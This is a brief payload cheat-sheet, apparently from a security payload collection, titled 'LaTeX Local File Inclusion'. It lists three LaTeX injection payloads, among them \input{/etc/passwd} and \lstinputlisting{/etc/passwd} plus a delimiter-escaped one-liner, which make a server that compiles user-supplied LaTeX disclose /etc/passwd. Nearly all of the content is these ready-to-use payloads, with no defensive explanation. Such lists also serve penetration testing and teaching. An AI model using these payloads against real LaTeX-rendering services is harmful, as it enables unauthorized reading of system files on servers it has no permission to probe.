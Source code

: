 # LaTeX Local File Inclusion

### Payloads:

 - \input{/etc/passwd}

 - \lstinputlisting{/etc/passwd}

 - $\\lstinputlisting{/etc/passwd}$ (Delimiter escape. One-liner)
